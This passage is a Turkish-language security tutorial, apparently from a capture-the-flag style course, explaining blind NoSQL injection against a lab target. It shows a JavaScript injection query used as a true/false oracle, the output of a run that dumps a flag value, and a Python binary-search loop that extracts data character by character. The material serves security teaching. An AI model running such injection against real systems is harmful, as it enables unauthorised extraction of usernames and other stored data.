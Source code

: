 Kullandığımız özel **query** şu şekilde **template**'lenmiştir: `this.username.startsWith("HTB{") && this.username.charCodeAt(i) == c`. İlk kısım, istediğimiz **username**'i hedeflediğimizden emin olur (sadece `'HTB{'` ile başlayan bir **username** olduğu varsayılır) ve ikinci kısım, **string**'deki i. indisteki karakterin ASCII değerinin, döngüde bulunduğumuz değere (`c`) eşit olup olmadığını kontrol eder.

Bu noktada, **script**'i çalıştırabiliriz ve **username** başarıyla **dump** edilmelidir.

```shell-session
[!bash!]$ time python3 mangoonline-exploit.py 

---- Regular search ----
Flag: HTB{...SNIP...}
Requests: 1678

real    2m40.351s
user    0m2.626s
sys     0m0.407s
```

Not: Bu scriptin gerektirdiği çok sayıda istek nedeniyle, canlı hedefe karşı test edilirken başarısız olabilir. Aşağıdaki optimize edilmiş sürümde herhangi bir sorun yaşanmayacaktır.

### Optimizing Script

Bu **script** çalışsa da, çok verimsizdir. Eğer yalnızca birkaç düzine karakter uzunluğunda bir **username** **dump** ediyorsak, bu büyük bir sorun olmayabilir, ancak daha büyük miktarlarda veri exfiltrate etmeye çalışıyorsak, bu önemli olabilir.

Eğer popüler arama algoritmaları hakkında bilgi sahibiyseniz, **[binary search](https://www.geeksforgeeks.org/binary-search/)** algoritmasını duymuş olabilirsiniz. **Binary search**'ın temel fikri, arama alanını sürekli olarak ikiye bölerek aradığımız şeyi bulana kadar devam etmektir. Bu durumda, **`i`**. indisteki karakterin `ASCII değerini arıyoruz ve arama alanı 32-127` arasındadır.

**Binary search** algoritması, en kötü durumda `O(log_2(N))` zamanında çalışır, bu da sadece şunu ifade eden şık bir şekilde yazılmıştır: en kötü durumda tamamlanması için `log_2(N)` iterasyon gerektirir. Bu durumda, **binary search** uyguladığımızda, en kötü durumda hedef değeri bulmak için `7 iterasyon` gerekecektir, bu da şu anki en kötü durumumuz olan `95 iterasyondan` çok daha iyidir. Kısacası, bu algoritma çok zaman kazandıracak ve request sayısını azaltacaktır. Eğer teknik detayları anlamak isterseniz, bu [makaleye](https://www.geeksforgeeks.org/understanding-time-complexity-simple-examples/) göz atmanızı öneririm.

Algoritma zor gibi görünse de, uygulaması oldukça basittir - orijinal aramamızdan yalnızca birkaç satır daha fazla kod gerektirir.

```python
# Kullanıcı adını dump edin (binary search)
num_req = 0 # Request counter'ı sıfırlayın
username = "HTB{" # Bilinen kullanıcı adı başlangıcı
i = 4 # İlk 4 karakteri atlayın (HTB{)
while username[-1] != "}": # Kullanıcı adının sonu olan ‘}’ ile karşılaşana kadar tekrarlayın
    low = 32 # Search alanının düşük değerini ayarlayın (‘ ’)
    high = 127 # Search alanının yüksek değerini ayarlayın (‘~’)
    mid = 0
    while low <= high:
        mid = (high + low) // 2 # Search alanının orta noktasını hesaplayın
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) > %d' % (i, mid)):
            low = mid + 1 # 'i' indeksindeki kullanıcı adının ASCII değeri < orta nokta ise, alt sınırı artırın ve tekrarlayın
        elif oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) < %d' % (i, mid)):
            high = mid - 1 # 'i' indeksindeki kullanıcı adının ASCII değeri > orta nokta ise, üst sınırı azaltın ve tekrarlayın
        else:
            username += chr(mid) # ASCII değeri orta noktadan yüksek veya düşük değilse hedef değeri bulduk
```